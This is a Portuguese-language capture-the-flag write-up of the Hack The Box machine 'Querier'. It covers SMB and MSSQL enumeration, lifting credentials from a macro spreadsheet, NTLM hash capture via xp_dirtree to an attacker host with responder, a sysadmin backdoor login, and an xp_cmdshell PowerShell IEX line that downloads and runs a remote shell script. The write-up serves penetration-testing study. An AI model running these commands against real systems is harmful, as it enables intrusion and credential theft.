 Querier
========================

![qownnotes-media-fVEVRR](../../.gitbook/assets/qownnotes-media-fVEVRR.png)

![qownnotes-media-TdytFh](../../.gitbook/assets/qownnotes-media-TdytFh.png)

![qownnotes-media-mGqFHC](../../.gitbook/assets/qownnotes-media-mGqFHC.png)

![qownnotes-media-zDpGuZ](../../.gitbook/assets/qownnotes-media-zDpGuZ.png)

Então aqui temos:

RPC

![qownnotes-media-crwuUo](../../.gitbook/assets/qownnotes-media-crwuUo.png)

SMB

Com crackmapexec

![qownnotes-media-YWLPZW](../../.gitbook/assets/qownnotes-media-YWLPZW.png)

Até que achamos esse compartilhamento com o seguinte conteúdo:

![qownnotes-media-yJMDTK](../../.gitbook/assets/qownnotes-media-yJMDTK.png)

    sudo apt update
    sudo apt install libreoffice
    open Currency\ Volume\ Report.xlsm
    
  ![qownnotes-media-YCVkta](../../.gitbook/assets/qownnotes-media-YCVkta.png)
  
  Visto a credencial, eu já salvei elas em um arquivo:
  
  reporting:PcwTWTHRwryjc$c6
    
MSSQL

Então, tentamos logar no banco, porém com algumas dificuldades:

![qownnotes-media-PPQnJo](../../.gitbook/assets/qownnotes-media-PPQnJo.png)

![qownnotes-media-icBnwk](../../.gitbook/assets/qownnotes-media-icBnwk.png)

    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.10.10.125
    
    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=reporting,mssql.password='PcwTWTHRwryjc$c6',mssql.instance-name=QUERIER -sV -p 1433 10.10.10.125
    
    nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=reporting,mssql.password='PcwTWTHRwryjc$c6',mssql.instance-name=volume -sV -p 1433 10.10.10.125

```
impacket-mssqlclient -d volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125'
impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125'
impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125' -windows-auth
```
    crackmapexec mssql 10.10.10.125 -u users.txt -p passwords.txt
    crackmapexec mssql 10.10.10.125 -u reporting -p 'PcwTWTHRwryjc$c6'
    
 ![qownnotes-media-pFKIfa](../../.gitbook/assets/qownnotes-media-pFKIfa.png)
 
 Até que o que finalmente funcionou foi:
 
     impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125' -windows-auth
 
WINRM

    crackmapexec winrm 10.10.10.125 -u users.txt -p passwords.txt
    evil-winrm -i 10.10.10.125 -u reporting -p 'PcwTWTHRwryjc$c6'

## Exploitation

    impacket-mssqlclient -db volume 'QUERIER.HTB.LOCAL/reporting:PcwTWTHRwryjc$c6@10.10.10.125' -windows-auth

Já com acesso ao banco, agora precisamos enumerar
  
## Enumeration

```
# Get version
select @@version;
# Get user
select user_name();
# Get databases
SELECT name FROM master.dbo.sysdatabases;
# Use database
USE master

#Get table names
SELECT * FROM volume.INFORMATION_SCHEMA.TABLES;
#List Linked Servers
EXEC sp_linkedservers
SELECT * FROM sys.servers;
#List users
select sp.name as login, sp.type_desc as login_type, sl.password_hash, sp.create_date, sp.modify_date, case when sp.is_disabled = 1 then 'Disabled' else 'Enabled' end as status from sys.server_principals sp left join sys.sql_logins sl on sp.principal_id = sl.principal_id where sp.type not in ('G', 'R') order by sp.name;
#Create user with sysadmin privs
CREATE LOGIN hacker WITH PASSWORD = 'P@ssword123!'
EXEC sp_addsrvrolemember 'hacker', 'sysadmin'
```

## Obtain hashes

```
xp_dirtree '\\<attacker_IP>\any\thing'
exec master.dbo.xp_dirtree '\\<attacker_IP>\any\thing'
EXEC master..xp_subdirs '\\<attacker_IP>\anything\'
EXEC master..xp_fileexist '\\<attacker_IP>\anything\'

# Capture hash
sudo responder -I tun0
sudo impacket-smbserver share ./ -smb2support
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer
```
![qownnotes-media-SbscXJ](../../.gitbook/assets/qownnotes-media-SbscXJ.png)

![qownnotes-media-DYDJas](../../.gitbook/assets/qownnotes-media-DYDJas.png)

![qownnotes-media-aNrscv](../../.gitbook/assets/qownnotes-media-aNrscv.png)

Outra conta, então temos:

reporting:PcwTWTHRwryjc$c6
mssql-svc:corporate568

![qownnotes-media-FkrMvn](../../.gitbook/assets/qownnotes-media-FkrMvn.png)

    evil-winrm -i 10.10.10.125 -u mssql-svc -p corporate568

![qownnotes-media-pMKPFs](../../.gitbook/assets/qownnotes-media-pMKPFs.png)

Após uma nova enumeração, conseguimos logar novamente no banco com as credenciais novas:

![qownnotes-media-XFSsyA](../../.gitbook/assets/qownnotes-media-XFSsyA.png)

![qownnotes-media-vinnQD](../../.gitbook/assets/qownnotes-media-vinnQD.png)

Porém, dessa vez conseguimos executar comandos no SO por meio do banco de dados, conforme print acima.

    EXEC xp_cmdshell "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.14/shell2.ps1')"

## PrivEsc

Aqui foi basicão:

![qownnotes-media-jcRezK](../../.gitbook/assets/qownnotes-media-jcRezK.png)

![qownnotes-media-gTdxlL](../../.gitbook/assets/qownnotes-media-gTdxlL.png)

![qownnotes-media-RGLKVF](../../.gitbook/assets/qownnotes-media-RGLKVF.png)